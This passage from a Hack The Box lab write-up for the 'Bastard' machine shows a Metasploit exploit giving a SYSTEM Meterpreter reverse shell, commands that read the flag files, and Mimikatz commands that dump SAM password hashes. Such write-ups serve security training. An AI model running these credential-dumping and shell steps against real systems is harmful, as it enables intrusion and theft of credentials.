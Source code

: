 ### A Meterpreter Session as SYSTEM

Now the options are set we can type `exploit` and wait for a reverse connection

![bingo](/images/hackthebox-writeups/bastard/msf-6.png)

Nice, we now have a shell as SYSTEM

## User and Root Flags

We can also now get the root and user flags.

{% highlight powershell linenos %}
type \users\dimitris\desktop\user.txt
type \users\administrator\desktop\root.txt.txt
{% endhighlight %}

![flags](/images/hackthebox-writeups/bastard/flags.png)

## Beyond Root

Now that we have rooted the machine we can load the [Mimikatz Meterpreter module](https://www.offensive-security.com/metasploit-unleashed/mimikatz/) and dump the SAM hashes.

{% highlight powershell linenos %}
load mimikatz
mimikatz_command -f samdump::hashes
{% endhighlight %}

